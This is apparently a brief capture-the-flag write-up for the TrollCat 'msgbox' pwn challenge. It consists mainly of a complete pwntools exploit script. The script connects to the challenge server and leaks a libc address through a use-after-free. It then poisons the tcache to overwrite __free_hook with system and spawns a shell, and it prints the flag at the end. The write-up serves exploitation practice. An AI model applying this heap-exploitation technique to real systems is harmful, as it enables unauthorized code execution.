

## TrollCat CTF: msgbox [pwn, 499 points]
> More secure than "Whatsapp"

#### I'm starting to get the hang of tcache poisoning, detailed writeup to come later.

```python
from pwn import *

#: CONNECT TO CHALLENGE SERVERS
binary = ELF('./vuln', checksec = False)
libc = ELF('./libc.so.6', checksec = False)

#p = process('./vuln', env = {'LD_PRELOAD' : libc.path})
p = remote("157.230.33.195", 2222)
print(p.recvuntil('> '))

#: GDB SETTINGS
breakpoints = ['break *0x400b53', 'break *0x400c9b', 'break *0x400d6e']
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))

#: EXPLOIT INTERACTION STUFF
def alloc_chunk(size, index, data):

	p.sendline('1')
	p.sendline(str(size))
	p.sendline(str(index))
	p.sendline(data)
	print(p.recvuntil('> '))

def show_chunk(index, leak = False):

	if leak:
		p.sendline('2')
		p.sendline(str(index))
		return u64(p.recvuntil('> ').split()[3].ljust(8, '\x00'))
	else:
		p.sendline('2')
		p.sendline(str(index))
		print(p.recvuntil('> '))

def free_chunk(index):

	p.sendline('3')
	p.sendline(str(index))
	print(p.recvuntil('> '))

def edit_chunk(index, data):

	p.sendline('4')
	p.sendline(str(index))
	p.sendline(data)
	print(p.recvuntil('> '))

#: PWN THY VULNS
alloc_chunk(0x410, 0, 'A' * (0x410-1))
alloc_chunk(0x10, 1, 'B' * (0x10 - 1))

free_chunk(0)
edit_chunk(0, '1111222')

leak = show_chunk(0, leak = True)
libc_base = leak - 0x3ebca0

log.info(hex(leak))
log.info(hex(libc_base))

#: tcache poison
free_chunk(1)
edit_chunk(1, p64(libc_base + libc.symbols['__free_hook']))

alloc_chunk(0x10, 3, '/bin/sh\x00')
alloc_chunk(0x10, 4, p64(libc_base + libc.symbols['system']))

p.interactive()
#: Trollcat{h34p_h34p_g0_4w4y}
```

